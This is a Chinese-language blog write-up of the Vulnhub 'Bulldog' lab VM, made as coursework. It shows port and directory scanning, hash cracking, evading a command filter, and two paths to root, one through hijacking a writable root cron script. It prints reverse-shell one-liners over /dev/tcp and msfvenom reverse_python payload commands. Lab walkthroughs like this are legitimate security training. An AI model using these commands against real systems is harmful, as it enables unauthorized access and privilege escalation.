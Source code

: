 ```yaml
---
title: 【网络安全0x0d】命令执行漏洞（集成工具）
date: 2020-06-20 21:13:08
tags: [网络安全, metasploit]
---
```


51CTO的网课，本篇利用nmap搜索开放端口，nikto、dirb挖掘敏感目录找到一个登陆界面和一个测试界面，审计源代码，破解用户名和口令登陆后台，使用命令测试界面执行反弹shell，得到低权用户权限，后面一种是审计代码猜出root口令(太有CTF内味了)，另一种是正常方法，审计代码查询定时任务，篡改定时任务源码，反弹得到root权限，获得flag。本文两种方式均有展示，后面的方法找遍全网，才从油管上一个西班牙小哥的视频里学到细节，难道大家都这么爱猜的吗？

本篇使用工具sparta(已改名legion)，metasploit。

<!-- more -->

# 使用命令

## 反弹shell

``` bash
bash -i >& /dev/tcp/[ip]/[port] 0>&1
#bash -i	产生一个交互式bash
#>& /dev/tcp/ip/port	建立TCP连接，并将标准输出和错误重定向到TCP连接
#0>&1	从TCP连接获取输入
```

如果使用msfvenom则是：

``` bash
msfvenom -p cmd/unix/reverse_python lhost=[ip] lport=[port] -f raw > shell.py 
```

# 渗透记录

1. nmap扫描靶机IP地址开放端口，两个web服务，不过`80`口和`8080`口服务一样，`dirb`挖掘`80`端口web信息，找到后台登录界面和测试界面：

``` bash
nmap -sV 192.168.2.222
dirb http://192.168.2.222
```

![](./1064/1.PNG)

2. 后台弱口令登不上，打开测试界面，没有权限，审计源码，可以看到SHA1加密的口令信息：

![](./1064/2.PNG)

3. 上网站`crackstation.neet`破解，出来俩密码(这个本地john也能破解，不过只能出一个)：

![](./1064/3.PNG)

4. 登陆了后台，没什么操作的权限，但是测试界面的shell可以用了，有些不允许使用的命令也可以绕过检测，下面列举几种绕过检测的方式：

![](./1064/4.PNG)

5. 绕过检测反弹个shell回来，不过是低权的：

``` bash
echo 'bash -i >& /dev/tcp/192.168.2.205/4444 0>&1' | bash
```

![](./1064/5.PNG)

6. 切到**bulldogadmin**用户目录下，找着一个隐藏的敏感目录，打开里面有俩文件：

![](./1064/6.PNG)

7. **note**文件就是一些提示，一个点是文件夹下另一个文件有敏感信息，另一个点事建议往web方向探索，使用`cat`查看另一个文件各种乱码，换`strings`来看：

![](./1064/7.PNG)

8. 就这么猜出来了root密码，拿到flag，我也是佛了，看作者留下来的信息，肯定还有正常的方式来拿到root权限，不是靠猜：

![](./1064/8.PNG)

9. 重新再来，这次不猜密码，查看定时任务，找到一个非常可疑的任务`runAV`：

![](./1064/9.PNG)

10. 这个任务是每隔1分钟以root用户执行一次`/.hiddenAVDirectory/AVApplication.py`，然而这个py文件是任何人都可以修改执行的：

![](./1064/10.PNG)

11. msfvenom生成反弹shell，这里我一般使用的`pyhton/meterpreter/reverse_tcp`这个payload不好使，靶机执行不了。换成油管西班牙小哥用的`cmd/unix/reverse_python`就可以了，但是也得编辑把`import`去了，后面再加个`decode`，不然靶机import不了包还是报错：

``` bash
msfvenom -p cmd/unix/reverse_python lhost=192.168.2.205 lport=4443 -f raw > shell.py 
```

![](./1064/11.PNG)

12. 到靶机上，因为没有完整的bash，所以vim用不了，只能把代码echo进去，注意代码里的`"`前面要加`\`：

``` bash
echo "text\"text\"text" > shell.py
```

![](./1064/12.PNG)

13. metasploit里开启监听，一分钟左右反弹回了root权限的shell，这才是正道啊，猜密码都是邪道（滑稽）：

![](./1064/13.PNG)

14. 哦对，忘了这期视频是教集成工具**sparta**，这个探出来的信息其实也不是很全，不过胜在方便，现在改名**legion**了，下面贴张扫描图：

![](./1064/14.PNG)

# 参考资料

1. [2020发布 CTF基础入门/CTF教程零基础 渗透测试/web安全/CTF夺旗【整套教程】](https://www.bilibili.com/video/BV1SJ411h7VW)
2. [【youtube】Fernando Pinheiro - Vulnhub Bulldog - Como hackear a vm.](https://www.youtube.com/watch?v=sqx3MDUnEpc&t=2s)